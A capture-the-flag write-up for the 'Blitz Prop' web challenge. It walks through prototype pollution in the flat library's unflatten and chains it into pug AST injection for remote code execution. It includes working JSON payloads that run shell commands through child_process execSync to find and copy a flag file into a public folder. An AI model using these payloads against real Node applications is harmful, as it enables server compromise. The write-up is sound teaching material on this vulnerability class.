


# Blitz Prop

## First Look

The web page for Blitz Prop is a beautiful, futuristic looking feedback form. As the user, we are provided with a list of songs from a famous alien band called Blitz Prop and asked to choose our favorite.


There are some hints here in the songs names for those with the right insight, but we'll ignore those. Instead, the source code is available, so let's treat this like something of a code review:

```js
const path = require("path");
const express = require("express");
const pug = require("pug");
const { unflatten } = require("flat");
const router = express.Router();

router.get("/", (req, res) => {
  return res.sendFile(path.resolve("views/index.html"));
});

router.post("/api/submit", (req, res) => {
  const { song } = unflatten(req.body);

  if (
    song.name.includes("Not Polluting with the boys") ||
    song.name.includes("ASTa la vista baby") ||
    song.name.includes("The Galactic Rhymes") ||
    song.name.includes("The Goose went wild")
  ) {
    return res.json({
      response: pug.compile(
        "span Hello #{user}, thank you for letting us know!"
      )({ user: "guest" }),
    });
  } else {
    return res.json({
      response: "Please provide us with the name of an existing song.",
    });
  }
});
```

A cursory look shows that our input is 'unflattened' using the 'flat' library then checked for one of the song names as a substring. If a song is found, pug is used to process a template and return some text to display on the webpage. A quick look at the form payload reveals flattened JSON that we can fiddle with using Burp, developer tools, curl, or whatever your favorite tool is for sending HTML requests.


## Identifying the vulnerability

The application is very simple. Node.js and Express are commonly used, robust tools for serving javascript based web applications. However, both `pug` and `flat` are interesting.

[Pug.js](https://pugjs.org/api/getting-started.html) is a templating tool. In this app, it is used for one thing: [String Interpolation](https://en.wikipedia.org/wiki/String_interpolation#JavaScript). Since string interpolation is built-in to javascript, we have reason to be suspicious here. However, the string being subsituted is hardcoded. This could be a red-herring, so let's set it aside for now and look at flat.

[Flat](https://github.com/hughsk/flat) is a tool for flattening and unflattening JSON objects. In our case, it will transform the JSON payload from our above image to:

```json
{
  "song": {
    "name": "Not Polluting with the boys"
  }
}
```

And that's all that we have available to exploit. Unflatten is the only thing that processes our user input. Since our input is being unflattened and loaded as a javascript object into `song` variable, what if we could write or overwrite other items in Node's object space?

### Prototype Pollution

[Prototype Pollution](https://medium.com/node-modules/what-is-prototype-pollution-and-why-is-it-such-a-big-deal-2dd8d89a93c) is a potent vulnerability. See the excellent medium article by Dani Akash that I linked to learn about it. Play around with it in your browser console or Node to grasp it.

Vulnerabilities to Prototype Pollution are subtle, but can result in many issues from bypassing [authorization](https://auth0.com/intro-to-iam/what-is-authorization/) to [Denial of Service (DoS)](https://www.cloudflare.com/learning/ddos/glossary/denial-of-service/) to [Remote Code Execution (RCE)](https://en.wikipedia.org/wiki/Arbitrary_code_execution).

### Testing our Idea

We can run a quick test to see if unflatten is vulnerable to prototype pollution using node. Let's import the `flat` library, run a payload through the `unflatten` function and see if Node's object space is polluted:

```js
Welcome to Node.js v12.13.0.
Type ".help" for more information.
> const { unflatten } = require("flat")
undefined
> const payload = {'song.name': 'Not Polluting with the boys', 'Object.__proto__.Hello': 'World'}
undefined
> unflatten(payload)
{ song: { name: 'Not Polluting with the boys' }, Object: {} }
> payload.Hello
'World'
```

Bingo! We were able to pollute the Object space so that all objects have a property called `Hello` with value `World`.

## Find the Weakness

How do we exploit this? There are no if branches to bypass in the code. The default Object space only has functions to overwrite, but since we can only submit valid JSON, we cannot define our own function.

**Note:** This is because function definitions are not valid JSON and so will fail. You can overwrite a function with a payload such as `{ 'Object.__proto__.toString': '() => return "RIP ⚰️"' }` but it will break everything, as a critical _function_ has now been redefined as a _string_.

We can achieve RCE if we can find an `exec()` or `eval()` statement _anywhere in our application_. Maybe Pug?..

A little bit of googling with the terms `pug prototype pollution` hands us another excellent article called [AST Injection, Prototype Pollution to RCE](https://blog.p6.is/AST-Injection/), this one by Beomjin Lee. In this article, we find an essentially identical setup using `pug` and `flat`, along with a deep-dive into how pug is vulnerable to [AST](https://en.wikipedia.org/wiki/Abstract_syntax_tree) Injection through prototype pollution.

### Exploit

The linked blog is kind enough to provide a payload and goes into some detail on how it works. The underlying principle is still Prototype Pollution, but its worth reviewing the Pug source code to understand why it happens. However, that is outside the scope of this write-up, so we will proceed with our exploit.

If you have a system with a public IP that you can use to get a reverse shell, you're golden, but I will offer an alternative. The base app makes all items in the path `/static` publicly available:

```js
const express = require("express");
const app = express();
const routes = require("./routes");
const path = require("path");

app.use(express.json());
app.set("views", "./views");
app.use("/static", express.static(path.resolve("static"))); // <----- Here

app.use(routes);

app.all("*", (req, res) => {
  return res.status(404).send("404 page not found");
});

app.listen(1337, () => console.log("Listening on port 1337"));
```

So, let's just move our flag file there and view in our browser 😁
Since we don't know the flag file name, we'll send two payloads. I will use Firefox dev tools to submit the payload because I'm lazy 😎

```json
{
  "song.name": "Not Polluting with the boys",
  "Object.__proto__.block": {
    "type": "Text",
    "line": "process.mainModule.require('child_process').execSync(`find / -type f -name '*flag*' > static/possible_flags.txt`)"
  }
}
```

We are presented with a server error, but the ouput is just `find` errors. Our code executed succesfully!

```log
Error: Command failed: find / -type f -name '*flag*' > static/possible_flags.txt
find: /root: Permission denied
find: /proc/tty/driver: Permission denied
find: /proc/1/task/1/fd: Permission denied
find: /proc/1/task/1/fdinfo: Permission denied
find: /proc/1/task/1/ns: Permission denied
find: /proc/1/fd: Permission denied
find: /proc/1/map_files: Permission denied
find: /proc/1/fdinfo: Permission denied
find: /proc/1/ns: Permission denied
find: /proc/26/task/26/fd: Permission denied
find: /proc/26/task/26/fdinfo: Permission denied
find: /proc/26/task/26/ns: Permission denied
find: /proc/26/fd: Permission denied
find: /proc/26/map_files: Permission denied
find: /proc/26/fdinfo: Permission denied
find: /proc/26/ns: Permission denied
 on line 1
    at checkExecSyncError (child_process.js:621:11)
    at Object.execSync (child_process.js:657:15)
    at eval (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), <anonymous>:13:63)
    at template (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), <anonymous>:17:7)
    at /app/routes/index.js:16:81
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:281:22
```

Let's visit /static/possible_flags.txt:



The flag name is protected using [Security through Obscurity](https://en.wikipedia.org/wiki/Security_through_obscurity), but not very well. Let's go ahead and snag it:

```json
{
  "song.name": "Not Polluting with the boys",
  "Object.__proto__.block": {
    "type": "Text",
    "line": "process.mainModule.require('child_process').execSync(`cp /app/flagF4jzU static/flag.txt`)"
  }
}
```

Submit the same way and check it out in the browser:



Success!
